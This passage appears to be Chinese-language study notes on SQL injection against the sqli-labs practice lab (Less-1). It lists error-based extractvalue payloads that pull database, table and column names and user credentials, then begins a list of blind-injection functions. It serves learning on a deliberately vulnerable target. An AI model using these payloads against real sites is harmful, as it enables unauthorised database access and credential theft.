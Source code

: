 ```
http://[靶机IP]/sqli-labs/Less-1/?id=1' and extractvalue(1,concat('~',database()))--+
```

使用以下payload获取数据库security的全部表名：

```
http://[靶机IP]/sqli-labs/Less-1/?id=1' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema='security')))--+
```

以上的变式：借助limit防止长度超过限制

```
http://[靶机IP]/sqli-labs/Less-1/?id=1' and extractvalue(1,concat('~',(select table_name from information_schema.tables where table_schema='security' limit 0,1)))--+
//显示security库中的第1张表的名字

http://[靶机IP]/sqli-labs/Less-1/?id=1' and extractvalue(1,concat('~',(select table_name from information_schema.tables where table_schema='security' limit 1,1)))--+
//显示security库中的第2张表的名字
```

使用以下payload获取users表的全部字段名

```
http://[靶机IP]/sqli-labs/Less-1/?id=1' and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')))--+
```

显示具体数据

```
http://[靶机IP]/sqli-labs/Less-1/?id=1' and extractvalue(1,concat('~',(select concat_ws(',',id,username,password) from security.users limit 0,1)))--+
```

## SQL盲注

### 盲注常用函数

![image-20231110103535478](https://s2.loli.net/2023/11/10/NCBcWZYF7TkAvU8.png)

- if()

​	语法格式：if(expr1,expr2,expr3)：expr1为true则返回exprz,expr1为false则返回expr3.
 	注：仅MySQL支持。

- left()

​	语法格式：left(str.length)，如果str或length参数为NULL，则返回NULL值。
​	str：要提取子串的字符串。
​	length：正整数，指定将从左边返回的字符数。length 0或为负，则LEFT返回一个空字符串，length大于str	字符串的长度，则leftQ返回整个str字符串。

- length()

- substr(),substring()

  substr(str,pos,len),substring(str,pos,len)
